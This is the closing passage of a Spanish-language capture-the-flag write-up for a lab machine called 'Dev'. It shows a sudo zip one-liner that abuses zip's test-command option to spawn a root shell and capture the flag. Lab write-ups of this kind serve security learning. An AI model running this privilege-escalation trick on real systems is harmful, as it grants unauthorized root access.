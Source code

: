 - Se copia estas líneas de código uno por uno.

![](/assets/images/2025-07-21-Maquina_Dev/dev_sudocode.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

- Si ejecutamos estas 2 líneas, nos arroja una shell.
- Finalmente se obtiene root y la flag.

![](/assets/images/2025-07-21-Maquina_Dev/dev_flag.png)

- *Autor: marcelosec*

